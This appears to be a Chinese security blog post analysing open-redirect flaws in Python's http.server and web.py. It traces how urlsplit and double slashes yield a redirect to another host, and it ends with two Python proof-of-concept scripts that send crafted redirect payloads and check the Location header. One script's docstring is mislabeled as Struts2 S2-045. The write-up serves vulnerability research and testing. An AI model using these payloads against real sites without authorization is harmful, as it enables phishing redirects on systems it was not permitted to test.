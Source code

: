 Title:http.server和web.py的URL跳转漏洞实践
Date: 2018-01-20 10:20
Category: 漏洞实践
Tags: python安全,URL redirect
Slug: 
Authors: bit4
Summary: 



看了[Phithon的文章](https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html) 分析了2个python的web服务器中的URL跳转漏洞，自己也尝试跟着思路理一理。

### 0x0、函数的本意

这个函数的本意是：

判断当前请求的url中的path（也就是本例中的“email”）是不是一个存在的路径，如果是则通过301重定向到

email/  这是其他web服务器都具有的一个正常操作。

```
http://127.0.0.1:8000/email
会自动跳转到
http://127.0.0.1:8000/email/
```

可以通过浏览器正常访问试一试，正常的web服务器都会这样跳转。

![本来的功能](img/http.server/正常的请求.png)

通过断点调试看到的信息（关于调试给SimpleHTTPServer.py下断点，方法和给自己的代码下断点一样，因为它里面直接有一个测试函数，可以直接运行SimpleHTTPServer.py来启动一个web服务器）：

![本来的功能](img/http.server/本来的功能.png)



### 0x1、单斜杠和双斜杠对于ulrparse.urlsplit()

从phithon的文章中可以看出，要实现URL的跳转的一个关键是浏览器把双斜杠后面的内容当作域名。

我们在burp中试试，发现能通过可以构造出带双斜杠的Location返回（如下图）。

![双斜杠的差异](img/http.server/双斜杠的差异.png)



继续在代码中加断点中看看，可以看出，当请求的url是单斜杠时（如上图下半部分），email是被认为是path，当是双斜杠时却被认为是netloc。个人认为这是http.server和其他web服务器所不同的地方（比如nginx，自己试过，访问http://www.code2sec.com/img  和访问http://www.code2sec.com//img 的结果都是一样的，说明这2个请求中，img都被认为是path）。

![yyy](img/http.server/yyy.png)

可以看出，关键是urlparse.urlsplit()函数导致的。

![urlsplit](img/http.server/urlsplit.png)

再验证一下上面提到的nginx中是否可以构造出带双斜杠的Location。结果表明不行，所以，这个漏洞之所以成立的一个前提条件就是：使用了urlparse.urlsplit()来解析path导致可以构造出双斜杠的Location返回，否则这个漏洞将不成立。（所以修复方案是否可以朝着这个思路来？）

![nginx](img/http.server/nginx.png)

### 0x2、为什么需要%2f..



```
如果是：
http://127.0.0.1:8000//example.com//..
最后的/..将被浏览器处理，根本发送不到服务器端，发送到服务端的请求将是（可以抓包验证一下），
http://127.0.0.1:8000//example.com/

想要发送到服务器端，就必须对/进行URL编码,即
http://127.0.0.1:8000//example.com/%2f..
```

而到了服务器端，这个`//example.com/%2f..`将被translate_path()函数处理，会先进行url解码然后转换为系统路径

![translatepath](img/http.server/translatepath.png)

解码后的内容为//example.com//.. 也就是当前路径了。

![translatepath1](img/http.server/translatepath1.png)



### 0x3、PoC脚本

以上基本理清了poc中的一些关键点，附上自动化检测脚本，可直接用于POC-T。

http.server open redirect的poc

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
paylaod: http://127.0.0.1:8000//example.com/%2f%2e%2e
测试状态：成功
'''

import requests
import urlparse
import sys

def poc(url):
    x = urlparse.urlparse(url)
    target = "{0}://{1}".format(x.scheme,x.netloc)

    payload = "{0}//example.com/%2f%2e%2e".format(target)

    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])
```

web.py open redirect的poc:

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
漏洞名称：Struts2漏洞S2-045
实验环境：VulApps/s/struts2/s2-045
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
测试状态：
'''

import requests
import urlparse
import sys
import urllib

'''
payload： http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
说明：根据p神的文章，是只有处理静态文件的代码是继承了SimpleHTTPRequestHandler类，才会受到影响
所以，这里的提供的url，最好是静态文件的url，比如 js、css、图片的完整url。
'''


'''
#
import web

urls = (
    '/(.*)', 'hello'
)
app = web.application(urls, globals())

class hello:
    def GET(self, name):
        if not name:
            name = 'World'
        return 'Hello, ' + name + '!'

if __name__ == "__main__":
    app.run()
'''


def poc(url):
    print("you should provide a static resoure url, like js|css|image")
    x = urlparse.urlparse(url)
    path_list = x.path.split("/")
    path_list.pop()
    path_list.remove("")
    path_list.append("")# list是有序的
    path= "%2f".join(path_list)
    #path = urllib.quote(path)
    #print(path)
    target = "{0}://{1}".format(x.scheme,x.netloc)
    #http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
    payload = "{0}////{1}@www.example.com/..%2f".format(target,path)
    print(payload)
    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])

```



参考：

https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html